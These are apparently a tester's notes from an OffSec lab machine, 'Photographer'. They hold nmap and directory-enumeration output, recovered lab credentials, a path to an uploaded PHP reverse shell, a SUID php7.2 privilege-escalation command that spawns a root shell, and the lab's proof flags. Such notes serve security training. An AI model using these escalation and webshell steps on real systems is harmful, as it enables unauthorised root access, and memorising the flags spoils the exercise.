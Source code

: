 =========================================================================
https://portal.offsec.com/labs/play
[OS]: Ubuntu 

[Web-Technology]: php

[Hostname]: photographer

[IP]:  192.168.217.76

[USERS]:
v1n1v131r4
Daisa

[CREDENTIALS]:
`daisa@photographer.com:babygirl`

=========================================================================
[To-Try LIST]:
22/tcp   open  ssh         [not yet]
80/tcp   open  http        [nothing here] (Nikto, Wfuzz, Gobuster)
139/tcp  open  netbios-ssn [obtain some file (mailtosent.txt, wordpress_bck.zip)]
445/tcp  open  netbios-ssn (smbclient, enum4linux, smbmap)
8000/tcp open  http        [/admin] (Nikto, Wfuzz, Gobuster, burp)

=========================================================================
```bash
[NMAP RESULTS]:

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:4d:aa:18:86:94:8e:88:a7:4c:6b:42:60:76:f1:4f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCq9GoYsvJTOUcsgHSES9+20Ix4Q8wjm5slMheJ2ME+COokAqxBzXSr458KBmHv3bsTLWAH9FxoXJ6zrzDPmPApcqVifB4aI9l/VYxoeJCj54kKIQlCKkWTZjsAeLBI2Lk2+yJLLFWPTAZ2htwRAwCl9z8YV3xgtqhTa+5BqIm/GInW4PYV0zi9zOMn2g4jNSWvy91FBUboGLwVgNYslGBydNW8Fhz8X/LXHZ1x6ulA76W026VEGOiQfoiIi84IFi9CbP8GIKfQ7BHuDlMqgiN9+w7K0z0oFdtiFhAS/48w89MYn6UOzw7Aaa9eLQi0+zxpW5SpCpw0mC2euzPxow2Z
|   256 4d:a3:d0:7a:8f:64:ef:82:45:2d:01:13:18:b7:e0:13 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz4UG2gfu7L/Lxcqek1pZf46d8SocbES1A2a/XUYQgTmIqJuCEpLf3ERgVXS+7Lwdi6+F3xkI/lYFCA5MkRUQA=
|   256 1a:01:7a:4f:cf:95:85:bf:31:a1:4f:15:87:ab:94:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDL5ZwzA5dpqtWx4ZzjVQ6NMzVUia8/We8txfiAn+mv4
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Photographer by v1n1v131r4
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
|_http-generator: Koken 0.22.24
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   PHOTOGRAPHER<00>     Flags: <unique><active>
|   PHOTOGRAPHER<03>     Flags: <unique><active>
|   PHOTOGRAPHER<20>     Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10990/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 15468/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 47220/udp): CLEAN (Failed to receive data)
|   Check 4 (port 33104/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2024-04-04T20:34:28-04:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-04-05T00:34:29
|_  start_date: N/A
|_clock-skew: mean: 1h20m36s, deviation: 2h18m34s, median: 35s
```
=========================================================================
[Web Services Enumeration]:

Directories [port:80]
===============================================================
/assets               (Status: 301) [Size: 317] [--> http://192.168.217.76/assets/]
/images               (Status: 301) [Size: 317] [--> http://192.168.217.76/images/]


Files [port:80]


Directories [port:8000]
=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000000003:   200        38 L     78 W       1020 Ch     "admin"                      
000000049:   200        53 L     203 W      3163 Ch     "category"                   
000000046:   200        54 L     207 W      3140 Ch     "tag"                        
000000064:   500        57 L     159 W      2073 Ch     "page"                       
000000081:   200        54 L     205 W      3206 Ch     "content"                    
000000090:   200        53 L     200 W      3054 Ch     "error"                      
000000098:   200        9 L      12 W       114 Ch      "app"                        
000000097:   301        0 L      0 W        0 Ch        "archives"                   
000000122:   200        53 L     203 W      3126 Ch     "tags"                       
000000130:   200        96 L     290 W      4560 Ch     "home"                       
000000233:   200        53 L     203 W      3171 Ch     "favorites"                  
000000245:   200        94 L     291 W      4602 Ch     "index"                      
000000295:   200        113 L    302 W      4261 Ch     "date"                       
000000386:   403        9 L      28 W       281 Ch      "icons"                      
000000731:   200        84 L     265 W      4521 Ch     "lightbox"                   
000000755:   200        54 L     205 W      3191 Ch     "albums"                     
000000761:   200        53 L     203 W      3136 Ch     "album"                      
000000862:   200        53 L     203 W      3180 Ch     "categories"                 
000000939:   403        9 L      28 W       281 Ch      "storage"                    
000001162:   200        54 L     203 W      3165 Ch     "contents"                   
^C000001531:   302        0 L      0 W        0 Ch        "merchant" 

Files [port:8000]
=====================================================================
ID           Response   Lines    Word       Chars       Payload          
=====================================================================

000000001:   200        94 L     291 W      4602 Ch     "index.php"      
000000149:   403        9 L      28 W       281 Ch      ".htaccess"      
000000180:   500        32 L     79 W       600 Ch      "api.php"        
000000371:   200        94 L     291 W      4602 Ch     "."              
000000529:   403        9 L      28 W       281 Ch      ".html"          
000000798:   403        9 L      28 W       281 Ch      ".php"           
000000941:   403        0 L      0 W        0 Ch        "dl.php"         
000000966:   403        0 L      0 W        0 Ch        "a.php"          
000001307:   302        0 L      0 W        0 Ch        "status.php"


http://192.168.217.76:8000/storage/originals/f5/d5/revshell.php

=========================================================================
[OTHER / PRIVILEGE-ESCALATION]:

find / -perm -u=s -type f 2>/dev/null

cd /usr/bin/php7.2
CMD="/bin/sh"
./php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"


`local.txt:a5d769da5f1afda1708e22a6c901f9b1`

`proof.txt:c6081d490127f0aaa649219a25585261`

=========================================================================
Take Away Concepts (for the flat-file reference system):
* Always check for direcotories and file seperately
* try different tools
* 